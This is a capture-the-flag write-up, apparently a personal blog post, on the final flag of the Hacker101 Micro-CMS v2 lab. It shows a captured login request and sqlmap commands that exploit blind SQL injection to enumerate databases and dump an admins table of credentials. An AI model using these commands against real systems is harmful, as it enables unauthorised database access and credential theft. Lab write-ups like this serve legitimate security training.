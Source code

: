 ```yaml
---
title: Hacker 101 CTF Micro-CMS v2 - Flag 3
published: true
---
```


Following on from [flag 1](https://ruddles.github.io/Hacker101-CTF-Micro-CMS-v2-flag-1) and [flag2](https://ruddles.github.io/Hacker101-CTF-Micro-CMS-v2-flag-2) this is a writeup of the final flag in [Hacker 101 CTF](https://ctf.hacker101.com/) Micro-CMS v2. If you're looking to follow along then I assume you're all logged in and have hit Go on the challenge.

# Finding the final vulnerability

At this point I've had a lot of time to dig around in the front end and can't think of anything else to try there, so let's have a dig in the database.

# sqlmap

If you've not come across it before, [sqlmap](https://sqlmap.org/) is a tool that automates finding and exploiting sql injection vulns.  Given we are exploiting a non-reflected (AKA blind) injection vuln (i.e. the results of the injection are not shown in the UI) then we either need to script something ourselves or use a tool. In this case sqlmap is very powerful but the docs aren't the best.  Let's have a play:

# Getting a request payload

The first thing we'll need is a request payload in a format that sqlmap understands.  In chrome, make sure you've got dev tools open on the login page, then enter any old junk in the username and password fields and click "Log In".

Now in the network tab we can right-click and select `Copy request headers` and paste the contents into a new file (I called mine "request.txt").  Then go back to the network tab and down in the Form Data area select `view source` and copy the payload.

![login error]({{ site.url }}/assets/post-images/h101-cms-v2/LoginCopy.png)

So the contents of the file looks something like this (with a different URL on the first line...):

```
POST /83aa39a35a/login HTTP/1.1
Host: 35.190.155.168
Connection: keep-alive
Content-Length: 27
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://35.190.155.168
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-GPC: 1
Referer: http://35.190.155.168/83aa39a35a/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: l2session=eyJhZG1pbiI6dHJ1ZX0.YJlkcg.ZOb4OMIethVS0zf62YyVTrw6Ong

username=user&password=pass
```

# Testing the username field

Now we're ready to run some tests.  In this first one we're going to get sqlmap to test the username parameter of the request we saved in request.txt.  The `-r` flag is the path to the request file we created, and the `-p` flag is the parameter to test:

`sqlmap -r ./request.txt -p username`

After running this we can see that the username field is vulnerable and that that we're working with MySQL >= 5.0 (MariaDB fork) and some details about the back end OS.  A little scary how much can be picked up here.

# Enumerating the databases

Next up we can use the `--dbs` command to get back a list of all the tables in the DB:

`sqlmap -r ./request.txt -p username --dbs`

This gives us 4 databases on the server that we can access:
- information_schema
- level2
- mysql
- performance_schema

# Enumerating the tables

That level2 database looks interesting.  We can use the `-D` flag to select that database, then use the `--tables` flag to list out the tables in that DB:

`sqlmap -r ./request.txt -p username -D level2 --tables`

Running this gives us 2 tables:

```bash
Database: level2
[2 tables]
+--------+
| admins |
| pages  |
+--------+
```

# Dumping the table contents

OK, that admin table looks like a good candidate.  We can use the `-T` flag to select that table and the `--dump` flag to dump the contents to the console.

`sqlmap -r ./request.txt -p username -D level2 -T admins --dump`

I won't post the output here but that's given me a table with a username and a plaintext password.  Logging in to the site with those credentials gives me the final flag.

And with that we are done with this small CTF, all the flags found and a few points on the board.  I plan on doing more of these posts for the other challenges on hacker 101.

Any comments or suggestions? Chat with me on [twitter](https://twitter.com/RuddlesDev)
